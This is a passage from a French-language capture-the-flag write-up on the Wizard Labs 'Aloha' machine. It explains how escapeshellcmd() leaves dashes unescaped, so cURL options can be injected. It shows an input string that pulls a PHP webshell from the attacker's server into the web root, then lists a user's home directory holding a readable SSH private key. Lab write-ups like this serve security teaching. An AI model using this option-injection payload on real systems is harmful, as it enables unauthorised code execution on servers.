 La fonction *escapeshellcmd()* est suffisamment forte pour échapper correctement les caractères spéciaux du shell (points virgule, backticks, pipe, etc) mais ne considère pas le tiret comme un caractère dangereux.  

Grave erreur puisque l'on peut alors passer des options à cURL et notamment la plus connue : *-o* qui permet d'indiquer où écrire le contenu téléchargé.  

On va donc partager un shell PHP via un serveur web temporaire et le faire rapatrier sur notre victime et passant la chaîne suivante au formulaire :  

```plain
http://10.254.0.29:8000/shell.php -o /var/www/html/devloop.php
```

On obtient ainsi un shell en tant que *www-data* :  

![Wizard Labs CTF Aloha webshell ](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/aloha_rce.png)

Flowers Powers
--------------

C'est journée portes ouvertes pour ce cher *Alex* :  

```plain
/home/alex:
total 16
drwxr-xr-x 1 alex alex   78 Mar 21 17:53 .
drwxr-xr-x 1 root root   20 Mar 21 00:14 ..
-rw-r--r-- 1 alex alex  220 Mar 21 00:14 .bash_logout
-rw-r--r-- 1 alex alex 3771 Mar 21 00:14 .bashrc
drwxrwxr-x 1 alex alex   48 Mar 21 17:20 .dev
-rw-r--r-- 1 alex alex  807 Mar 21 00:14 .profile
-rw------- 1 alex alex  816 Mar 21 00:16 .viminfo

/home/alex/.dev:
total 12
drwxrwxr-x 1 alex alex   48 Mar 21 17:20 .
drwxr-xr-x 1 alex alex   78 Mar 21 17:53 ..
-rw-r--r-- 1 root root 1675 Mar 21 00:17 id_rsa
-rw-r--r-- 1 root root  392 Mar 21 00:17 id_rsa.pub
-rw-rw-r-- 1 alex alex  246 Mar 21 00:16 note.txt
```

On trouve une note laissée par *Alex* :  

> sunny has asked me to write a scraper, well i thought what better way to be secure? so i isolated it!  
> 
>   
> 
> as sunny told me it's not safe to leave my SSH key on the server, i figured i could leave them here.. how could a container do damage?  
> 
>   
> 
> - alex
